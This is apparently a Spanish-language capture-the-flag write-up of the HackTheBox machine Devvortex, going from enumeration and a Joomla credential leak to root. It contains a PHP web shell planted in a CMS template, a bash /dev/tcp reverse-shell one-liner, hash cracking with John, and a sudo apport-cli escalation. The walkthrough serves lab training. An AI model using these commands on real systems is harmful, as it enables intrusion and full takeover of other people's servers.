 

# PortScan
___

```
# Nmap 7.93 scan initiated Sat Nov 25 15:48:07 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.11.242
Nmap scan report for 10.10.11.242
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 25 15:48:16 2023 -- 1 IP address (1 host up) scanned in 9.45 seconds
```

# WebSite
___
![[Pasted image 20231125200148.png]]


Indagando en el código fuente a primera vista no encontré nada, opté por buscar posibles directorio interesantes con "**GoBuster**" pero tampoco encontré nada, así qué decidí buscar posibles **sub-dominios** existentes para éste dominio con la misma herramienta "Gobuster".

```bash
gobuster vhost -u http://devvortex.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://devvortex.htb
[+] Method:       GET
[+] Threads:      20
[+] Wordlist:     /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/11/25 20:14:58 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.devvortex.htb (Status: 200) [Size: 23221]
```

Encontraríamos un sub-dominio "**dev.devvortex.htb**", lo añadimos al **"/etc/hosts"** para tener virtual hosting con ese sub-dominio y poder ver su contenido, tiene parentesco al dominio principal, y por su nombre pienso qué es una página para desarrollo y no de producción, así que procedo a enumerar directorios de éste sub-dominio con **GoBuster**.



Encontraríamos el directorio "**/administrator**", así que ingreso a éste porque me interesa ver qué hay, encontrándonos con un panel de autenticación del **CMS** Joomla.
![[Pasted image 20231125202429.png]]

Se me ocurrió usar la herramienta "**joomscan**" para buscar posibles vulnerabilidades en la versión de éste Joomla, pero no encontré nada, pero al menos la herramienta me reportó la versión del **CMS**, qué es **4.2.6**, así qué indagué en internet sobre posibles vulnerabilidades para ésta versión de Joomla.

Encontré la vulnerabilidad [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce), que nos permite abusar de una verificación de acceso incorrecto de esta versión hasta la 4.0.0, para poder filtrar información privilegiada qué no deberíamos tener acceso, exactamente acceso en texto claro a las credenciales de usuarios del CMS.

![[Pasted image 20231125203847.png]]

Procedemos a usar éstas credenciales para loguearnos como el usuario "**lewis**" en el CMS.

![[Pasted image 20231125204027.png]]

Hemos logrado acceso al CMS como "**lewis**", ahora buscamos una manera de poder ganar acceso a la máquina, lo qué se me ocurre es ver los "site templates", ver sí tenemos permiso para escribir en ellos & modificarlos de tal manera qué podamos llevar a cabo un **RCE**.

Para ello voy a **System** > Sites Templates > y selecciono el único template existente.

![[Pasted image 20231125204201.png]]

Tengo varios recursos, intento ver en cual puedo escribir.

![[Pasted image 20231125204250.png]]

Hemos logrado cambiar el recurso "**error.php**", así que ingreso un script PHP malicioso para poder llevar a cabo el RCE.

```bash
<?php system($_GET['cmd']); ?>
```

Una vez guardado, vamos al recurso "**error.php**", para poner el parámetro "**cmd**" en la URL y controlar el comando que queramos ejecutar.
![[Pasted image 20231125204632.png]]

Estamos logrando llevar a cabo el **RCE**, así que procedemos a entablarnos una Reverse Shell con la máquina víctima.

1. Nos ponemos en escucha en nuestra máquina.
```bash
nc -nlvp PORT
```

2. Ponemos el one liner urlencode para que nos envie la shell:
```bash
bash -c "bash -i >%26 /dev/tcp/10.10.x.x/PORT 0>%261"
```

![[Pasted image 20231125204932.png]]

Estaríamos conectados, y sólo faltaría darle tratamiento a la TTY, qué sino sabemos como [((Entra a éste POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios #1 
___
Vemos los usuarios válidos del sistema con directorios en **home**, viendo qué tiene un directorio personal un usuario llamado "**logan**", así qué me gustaría migrar a éste usuario & ya qué el que estamos actualmente no tiene ningún privilegio qué podamos aprovechar para convertirnos a Root, por lo qué se me ocurre ver sí hay reutilización de contraseñas, pero no.

Indagando, en la carpeta del código fuente del **sub-dominio**, en "**/var/www/**", vemos el recurso.
![[Pasted image 20231125205328.png]]

![[Pasted image 20231125205546.png]]

vemos lo qué aparentemente sería el usuario de la base de datos **MySQL**, corroboro qué haya algún puerto con este servicio corriendo.

![[Pasted image 20231125205928.png]]

Qué suele usarse para servicio **MySQL**, así que opto por intentar ingresar con éste usuario & reusando la contraseña que usé para el **CMS** para ver si logro acceso.

```bash
mysql -u lewis -p -h localhost -D joomla
```

![[Pasted image 20231125210145.png]]

Logrando acceso, así qué listando las tablas interesantes de la **DB Joomla**, me encontré con una tabla de mi interés.
![[Pasted image 20231125210255.png]]

que tendría como contenido en sus columnas, lo siguiente:

![[Pasted image 20231125211225.png]]

Siendo primero el nombre  luego nombre de usuario, correo y por último la contraseña, pero está hasheada.

Así qué se me ocurre tratar de aplicar fuerza bruta con la herramienta **"John The Ripper"** al hash, para ver sí podríamos ver la contraseña de éste usuario.

1. Creamos el archivo con el hash
```bash
nano hash
```
2. Ponemos dentro el nombre de usuario, separado por dos puntos & luego el hash.
```bash
logan:hash
```

3. Una vez guardamos, usamos la herramienta "**John The Ripper**" usando como diccionario el **rockyou.txt**.
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

y nos reportará la contraseña que coincide con el hash.

![[Pasted image 20231125211657.png]]

intentamos convertirnos en **logan** con éstas credenciales.

![[Pasted image 20231125211728.png]]

# Escalada de Privilegios #2 
_____

sí como "**logan**" vemos los permisos **SUDOERS**
```bash
sudo -l
```

![[Pasted image 20231125212033.png]]

Vemos qué podemos ejecutar como quien sea el "**apport-cli**", no tengo ni idea qué esto, así que hago una búsqueda rápida en internet, y descubro qué es una herramienta que sirve para informe de errores, indago más para posibles abusos con éste binario & me encuentro con la vulnerabilidad [CVE-2023-1326](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb), qué nos dice que si podemos ejecutar con sudo éste programa podríamos aprovecharnos de ésto para convertirnos en usuario root, así que procedo a guiarme del **PoC** para llevar a cabo la escalada.

1. Generamos el archivo qué usaremos para el "informe de error":
```bash
sudo /usr/bin/apport-cli -f /var/crash/archivo.crash --pid=23
```

2. Una vez cargue, elegimos la opción "**V**".

3. Llamamos una **bash**.
![[Pasted image 20231125213018.png]]

Convirtiéndonos en **Root**.
![[Pasted image 20231125213100.png]]
